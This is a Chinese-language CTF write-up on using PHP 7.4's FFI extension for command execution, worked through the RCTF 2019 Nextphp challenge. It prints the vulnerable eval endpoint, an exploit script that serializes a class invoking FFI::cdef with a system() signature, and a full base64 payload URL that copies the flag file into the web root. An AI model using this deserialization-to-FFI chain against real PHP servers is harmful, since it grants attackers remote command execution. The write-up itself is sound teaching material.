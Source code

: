 # 利用PHP FFI 预加载执行命令

# FFI

PHP7.4引入了一个扩展:PHP FFI(Foreign Function interface), 引用一段PHP FFI RFC中的一段描述:
>For PHP, FFI opens a way to write PHP extensions and bindings to C libraries in pure PHP. 

是的，FFI提供了高级语言直接的互相调用，而对于PHP来说，FFI让我们可以方便的调用C语言写的各种库。

举个例子，如果想要调用C语言中的system函数，可以使用如下代码：
```php
<?php
$ffi=FFI::cdef("int system(char *command);");
$ffi->system("whoami");
?>
```

# 举例

以[RCTF 2019]Nextphp为例，题目的代码非常简单：

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

相同目录下有```preload.php```，源码如下：
```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    //可以进行函数执行
    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        //array_merge把两个数组合并为一个数组
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        
        $this->data = unserialize($payload);
        $this->run();
    }
	//结果输出
    public function __get ($key) {
        //如果$key为ret，就可以输出函数执行返回的结果
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}

```

分析可得上述代码在反序列化的时候会触发```run()```方法，反序列化后可以调用``` __serialize()```方法利用C语言中的```system()```方法完成RCE。

EXP如下：
```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];

    private function run () {
        echo "run<br>";
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }
    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        echo "__construct<br>";
    }
}

$a = new A();
echo base64_encode(serialize($a)); 
```

然后访问payload就是```?a=unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__serialize()['ret']->system('cp /flag /var/www/html');```

上述payload可以将flag移到web目录。

# 总结

为什么不能用一开始的代码进行RCE？因为默认 ffi.enable=preload **且仅在命令行模式和**preload 文件中可用，在本地环境 ffi.enable=preload 模式下，web端也是无法执行 FFI 。将 ffi.enable 设置成 true 后，发现 web 端就可以利用 FFI 了。